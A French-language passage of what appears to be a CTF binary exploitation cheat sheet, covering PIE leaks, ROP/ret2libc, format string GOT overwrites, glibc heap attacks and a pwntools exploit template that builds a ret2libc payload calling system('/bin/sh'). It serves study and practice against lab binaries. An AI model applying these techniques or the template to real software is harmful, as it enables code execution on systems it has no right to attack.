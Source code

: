 ## 5.4. PIE actif → leak base binaire puis ROP/ret2libc
- Leak d’une adresse dans le binaire (retour d’une fonction, adresse dans GOT, or leaked RIP) pour calculer base `base = leaked - offset_in_elf`.
- Après leak, utiliser `ROP(base=base)` ou `ELF` avec base fixée.

## 5.5. Format string
- Peut permettre :
  - Lire mémoire (`%llx`).
  - Écrire mémoire (overwrite GOT entries).
- Stratégies :
  - Lire canary / PIE / libc pointer.
  - Overwrite `exit@GOT` ou `puts@GOT` to redirect flow.

## 5.6. Heap exploitation (fast summary)
- Reconnaître allocators (glibc malloc).
- Techniques courantes : fastbin dup/attack, unsorted-bin leak, tcache poisoning, House of Einherjar, House of Force, unlink (anciennes glibc).
- Objectif souvent : leak libc pointer ou overwrite __malloc_hook/free_hook/target function pointer.
- Utiliser `pwndbg`/`gef` pour inspecter heap layouts.

---

# 6. pwntools — snippets & patterns essentiels

## Template d’exploit commun (structure)
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # facultatif

context.binary = exe
context.log_level = 'info'  # debug pour plus d'infos

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('host', 1337)
    elif args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript)
    else:
        return process([exe.path] + argv)

gdbscript = '''
break main
continue
'''

p = start()

# --- Example workflow ---
p.recvuntil(b'> ')
payload = flat(
    b'A'*offset,
    p64(pop_rdi),
    p64(next(exe.search(b'/bin/sh'))),
    p64(exe.plt['system'])
)

```